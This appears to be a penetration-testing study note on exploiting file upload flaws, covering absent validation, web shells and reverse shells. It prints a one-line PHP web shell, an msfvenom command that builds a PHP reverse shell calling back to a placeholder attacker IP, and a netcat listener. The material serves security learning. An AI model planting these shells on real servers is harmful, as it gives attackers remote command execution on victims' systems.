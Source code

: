 # Basic Exploitation

## Introduction

The most common reason - weak file validation and verification, writing insecure functions, usage of outdated libraries.

Worst possible vulnerability is unauthenticated arbitrary file upload - allows any unauthenticated user to upload any file type.

Sometimes we may not have arbitrary file uploads and may only be able to upload a specific file type. This can also pose a number of vulnerabilities:
- XXE
- XSS
- DoS
- Overwriting critical system files and configurations, etc.

## Absent Validation

When there is not any validation at all we can upload directly our web shell or reverse shell script.

A web shell has to be written in the same programming language that runs the web server.

So the first step would be to **identify** what language runs the web app.

Often this can be seen by the *extensions* in the URLs, *fuzzing* the page, or using extensions like *Wappalyzer*.

## Upload Exploitation

**Web Shells**
There are a lot of web shells online that offer a lot of useful features.

For example `phpbash` or `SecLists` that offer a lot of these shells for different framewors.

But also simple web shells can be ritten without any big problem. For example on PHP apps, we can use hte `system()` function to execute system commands, and then pass it to the `cmd` parameter with `$_REQUEST['cmd']:

```sh
<?php system($_REQUEST['cmd']); ?>
```

**Reverse Shell**
The basic idea is that we upload a file on the target, which tries to connect to our machine, where we have activated a listener to wait for that connection.

After the connection has been established, then we can execute commands as we want.

We can **generate** our reverse shells using `msfvenom` tool.

```sh
msfvenom -p php/reverse_php LHOST=OUR_IP LPORT=OUR_PORT -f raw > reverse.php
```

Then start a listener:

```sh
nc -lvnp PORT
```

